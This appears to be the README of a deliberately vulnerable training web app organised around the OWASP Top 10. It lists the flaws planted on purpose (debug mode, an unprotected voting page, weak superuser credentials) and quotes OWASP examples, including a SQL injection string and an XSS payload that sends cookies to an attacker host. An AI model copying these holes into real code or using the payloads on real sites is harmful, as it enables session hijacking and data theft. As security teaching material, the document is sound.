 #OWASP TOP 10

##Ready implementations

- 6 … - bugmode = true, which means that when going to localhost:8000 (which is not in use) you can see all the sites and maybe find sites where to wander

- … & 5 - to make this more convenient, the programmer has forgotten to make the voting page @login_required so it is fully available to anyone wandering there

- 2 & 5 - because the admin-page’s password sec. controls are non-existent (commented in mysite-settings) one user is using weak password and has accidentally superuser-access to the admin-page, anyone can bruteforce this with a little bit of luck


**Test users and passwords**

bob – builder

crusty – clown

evan – allmighty

all users have access to admin page but unfortunately crusty has superuser-access as well


##1. Injection

Untrusted data is sent to an interpreter as part of a command or query.
Attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization.

**Vulnerable to attack when:**

User-supplied data is not validated, filtered, or sanitized by the application.

**Examples:**
An application uses untrusted data in the construction of the following vulnerable SQL call:
String query = "SELECT * FROM accounts WHERE custID='" + request.getParameter("id") + "'";

The attacker modifies the ‘id’ parameter value in their browser to send: ‘ or ‘1’=’1.
For example: http://example.com/app/accountView?id=' or '1'='1

**More on the subject:** [owasp-injection](https://owasp.org/www-project-top-ten/2017/A1_2017-Injection)

##2. Broken Authentication

Application functions related to authentication and session management are often implemented incorrectly, allowing attackers to compromise passwords, keys, or session tokens.

**Vulnerable to attack when:**

Permits default, weak, or well-known passwords, such as “Password1” or “admin/admin“.

Uses weak or ineffective credential recovery and forgot-password processes, such as “knowledge-based answers”, which cannot be made safe.

Uses plain text, encrypted, or weakly hashed passwords

Exposes Session IDs in the URL

Does not rotate Session IDs after successful login

Does not properly invalidate Session IDs. User sessions or authentication tokens (particularly single sign-on (SSO) tokens) aren’t properly invalidated during logout or a period of inactivity.

**Examples:**

If an application does not implement automated threat or credential stuffing protections, the application can be used as a password oracle to determine if the credentials are valid.

Application session timeouts aren’t set properly. A user uses a public computer to access an application. Instead of selecting “logout” the user simply closes the browser tab and walks away. An attacker uses the same browser an hour later, and the user is still authenticated.

Most authentication attacks occur due to the continued use of passwords as a sole factor. Once considered best practices, password rotation and complexity requirements are viewed as encouraging users to use, and reuse, weak passwords. 

**More on the subject:** [Owasp - broken authentication](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication)

##3. Sensitive Data Exposure (seems too hard to implement)

**More on the subject:** [owasp - sensitivite data exposure](https://owasp.org/www-project-top-ten/2017/A3_2017-Sensitive_Data_Exposure)

##4. XML External Entities (XXE) (seems too hard to implement)

More on the subject: https://owasp.org/www-project-top-ten/2017/A4_2017-XML_External_Entities_(XXE)

##5. Broken Access Control

Restrictions on what authenticated users are allowed to do are often not properly enforced. Attackers can exploit these flaws to access unauthorized functionality and/or data, such as access other users’ accounts, view sensitive files, modify other users’ data, change access rights, etc.

**Vulnerable to attack when:**

Elevation of privilege. Acting as a user without being logged in, or acting as an admin when logged in as a user.

Force browsing to authenticated pages as an unauthenticated user or to privileged pages as a standard user. Accessing API with missing access controls for POST, PUT and DELETE.

**Examples:**

The application uses unverified data in a SQL call that is accessing account information:
pstmt.setString(1, request.getParameter("acct"));
ResultSet results = pstmt.executeQuery( );

An attacker simply modifies the ‘acct’ parameter in the browser to send whatever account number they want. If not properly verified, the attacker can access any user’s account.
http://example.com/app/accountInfo?acct=notmyacct

An attacker simply force browses to target URLs. Admin rights are required for access to the admin page.
http://example.com/app/getappInfo
http://example.com/app/admin_getappInfo

If an unauthenticated user can access either page, it’s a flaw. If a non-admin can access the admin page, this is a flaw.

**More on the subject:** [owasp - broken access control]( https://owasp.org/www-project-top-ten/2017/A5_2017-Broken_Access_Control)

##6. Security Misconfiguration

This is commonly a result of insecure default configurations, incomplete or ad hoc configurations, open cloud storage, misconfigured HTTP headers, and verbose error messages containing sensitive information. Not only must all operating systems, frameworks, libraries, and applications be securely configured, but they must be patched/upgraded in a timely fashion.

**Vulnerable to attack when:**

Unnecessary features are enabled or installed (e.g. unnecessary ports, services, pages, accounts, or privileges).

Default accounts and their passwords still enabled and unchanged.

Error handling reveals stack traces or other overly informative error messages to users.

**Examples:**

The application server comes with sample applications that are not removed from the production server. These sample applications have known security flaws attackers use to compromise the server. If one of these applications is the admin console, and default accounts weren’t changed the attacker logs in with default passwords and takes over.

The application server’s configuration allows detailed error messages, e.g. stack traces, to be returned to users. This potentially exposes sensitive information or underlying flaws such as component versions that are known to be vulnerable.

**More on the subject:** [owasp - security misconfigurations]( https://owasp.org/www-project-top-ten/2017/A6_2017-Security_Misconfiguration)

##7. Cross-Site Scripting (XSS)

XSS allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites.

**Vulnerable to attack when:**

The application or API includes unvalidated and unescaped user input as part of HTML output. A successful attack can allow the attacker to execute arbitrary HTML and JavaScript in the victim’s browser. Typically the user will need to interact with some malicious link that points to an attacker-controlled page, such as malicious watering hole websites, advertisements, or similar.

**Examples:**

The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:
(String) page += "<input name='creditcard' type='TEXT'
value='" + request.getParameter("CC") + "'>";

The attacker modifies the ‘CC’ parameter in the browser to:
'><script>document.location=
'http://www.attacker.com/cgi-bin/cookie.cgi?
foo='+document.cookie</script>'.

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.

Note: Attackers can use XSS to defeat any automated Cross-Site Request Forgery (CSRF) defense the application might employ.

**More on the subject:** [owasp - xss](https://owasp.org/www-project-top-ten/2017/A7_2017-Cross-Site_Scripting_(XSS))

##8. Insecure Deserialization  (seems too hard to implement)

*More on the subject:** https://owasp.org/www-project-top-ten/2017/A8_2017-Insecure_Deserialization

##9. Using Components with Known Vulnerabilities

Components, such as libraries, frameworks, and other software modules, run with the same privileges as the application. If a vulnerable component is exploited, such an attack can facilitate serious data loss or server takeover. Applications and APIs using components with known vulnerabilities may undermine application defenses and enable various attacks and impacts.

**Vulnerable to attack when:**

If software is vulnerable, unsupported, or out of date. This includes the OS, web/application server, database management system (DBMS), applications, APIs and all components, runtime environments, and libraries.

**Examples:**

Components typically run with the same privileges as the application itself, so flaws in any component can result in serious impact. Such flaws can be accidental (e.g. coding error) or intentional (e.g. backdoor in component).

**More on the subject:** [owasp - components with known vulnerabilities](https://owasp.org/www-project-top-ten/2017/A9_2017-Using_Components_with_Known_Vulnerabilities)

##10. Insufficient Logging & Monitoring (seems too hard to implement)

*More on the subject:* [owasp - insufficient logging & monitoring](https://owasp.org/www-project-top-ten/2017/A10_2017-Insufficient_Logging%2526Monitoring)
